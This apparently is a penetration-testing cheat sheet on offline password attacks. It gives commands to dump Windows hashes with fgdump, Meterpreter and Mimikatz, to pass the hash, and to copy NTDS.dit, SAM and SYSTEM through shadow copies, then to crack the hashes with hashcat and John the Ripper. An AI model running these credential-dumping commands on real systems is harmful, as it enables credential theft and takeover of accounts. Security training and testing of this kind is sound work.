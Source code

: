 # Offline Attack

## Extracting Password Hashes from Windows

### fgdump

Run fgdump to dump local hash

> `fgdump.exe`

### Meterpreter's Hashdump

> `meterpreter > hashdump`

### Mimikatz

> `PS C:\temp\mimikatz> .\mimikatz`

* get debug rights \(this or Local System rights is required for many Mimikatz commands\).
* by default, the Administrators group has Debug rights. Debug still has to be “activated” by running “privilege::debug”.

> `mimikatz # privilege::debug`

* lists all available provider credentials. This usually shows recently logged on user and computer credentials.
* Services running with account credentials are also dumped using this command.
* Note that only services that are running \(credentials in memory\) can be dumped in this manner.

> `mimikatz # sekurlsa::logonpasswords`

#### Pass the Hash with Mimikatz

If you can’t crack the hash of a local administrator account you can instead just inject the hash into memory to gain the privileges:

> `sekurlsa::pth /user:Administrator /domain:{domain name} /ntlm:{ntlm hash here} /run:cmd`

### Volume Shadow Copy Services to copy ntds.dit

```text
cscript vssown.vbs /start
cscript vssown.vbs /create
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SAM c:\
```

## Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

## Cracking the Password

### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

> `unshadow /etc/passwd /etc/shadow >> crackme.txt`

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme.txt--wordlist=rockyou.txt`

Convert an encrypted SSH key to a format readable by John

> `ssh2john encrypted-key >> crackme-ssh`

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

> `john crackme-ssh --wordlist=rockyou.txt`

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

> `john--format=md5 hashes --wordlist=rockyou.txt`

John configuration file

* Linux

  > john.conf

* Windows

  > john.ini

john.pot file is where the cracking results stored.

> `john --show [password_file]`

john.rec is the recovery file in the event of a crash. To restore cracking

> `john --restore`

